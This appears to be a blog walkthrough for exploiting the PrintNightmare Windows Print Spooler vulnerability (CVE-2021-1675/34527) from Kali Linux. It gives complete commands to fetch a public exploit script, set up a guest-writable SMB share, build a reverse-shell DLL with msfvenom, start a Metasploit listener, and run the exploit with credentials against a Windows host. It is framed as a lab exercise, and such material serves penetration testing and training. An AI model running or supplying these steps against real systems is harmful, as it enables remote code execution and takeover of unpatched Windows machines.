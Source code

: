 
### Preparation in Kali

Open a terminal and enter the following commands. This will get an alternate package of impacket and will download the python script needed for this exploit

```
cd /tmp/
sudo pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
sudo python3 ./setup.py install
wget https://raw.githubusercontent.com/cube0x0/CVE-2021-1675/main/CVE-2021-1675.py
```

![exploit the PrintNightmare](https://www.thedutchhacker.com/wp-content/uploads/2021/07/image-1.png)

The script will need to download a malicious DLL file. So we need a share and for this, we will create an smb server on kali.

Type in the following command to config the smb server to point to the tmp directory on your kali machine. We are using this tmp directory because when rebooting kali all will be gone. But you can choose any directory you want. Just make sure it has the correct rights to be used as a public share.

```shell
$ sudo nano /etc/samba/smb.conf
```

Put in the following config

```
 [global]
     map to guest = Bad User
     server role = standalone server
     usershare allow guests = yes
     idmap config * : backend = tdb
     smb ports = 445
  
 _[smb]_
     comment = Samba
     path = /tmp/
     guest ok = yes
     read only = no
     browsable = yes
     orce user = smbuser
```

Start the smb server with the following command

```
$ sudo service smbd restart
```

Now we are going to create the DLL that we will be using to create a reverse shell. Type in the following command and change the IP to your kali machine IP and copy the dll to the tmp directory

msfvenom  -f dll -p windows/x64/shell_reverse_tcp LHOST=_**10.0.0.132**_ LPORT=443 -o reverse.dll

cp reverse.dll /tmp

![exploit the PrintNightmare](https://www.thedutchhacker.com/wp-content/uploads/2021/07/image-2.png)

Next we will start a listener with msfconsole. Type in the following commands

```
msfconsole
use multi/handler
set PAYLOAD windows/x64/shell_reverse_tcp
set LHOST 10.0.0.132
set LPORT 443
run
```

![exploit the PrintNightmare](https://www.thedutchhacker.com/wp-content/uploads/2021/07/image-3.png)

## The Exploit the PrintNightmare

Navigate to the tmp directory as that is where we have our py file. Type in the following command to start the exploit. Please do change the IP address to your lab environment. The first Ip is the Windows machine and the second the kali

sudo python3 CVE-2021-1675.py test:Welkom123@**10.0.0.117** '[\\**_10.0.0.132_**\smb\reverse.dll](file://10.60.20.132/smb/reverse.dll)'

![exploit the PrintNightmare](https://www.thedutchhacker.com/wp-content/uploads/2021/07/image-4-1024x876.png)

## Reference

- [CVE-2021-34527 – Security Update Guide – Microsoft – Windows Print Spooler Remote Code Execution Vulnerability](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527)
- [GitHub – cube0x0/CVE-2021-1675: C# and Impacket implementation of PrintNightmare CVE-2021-1675/CVE-2021-34527](https://github.com/cube0x0/CVE-2021-1675)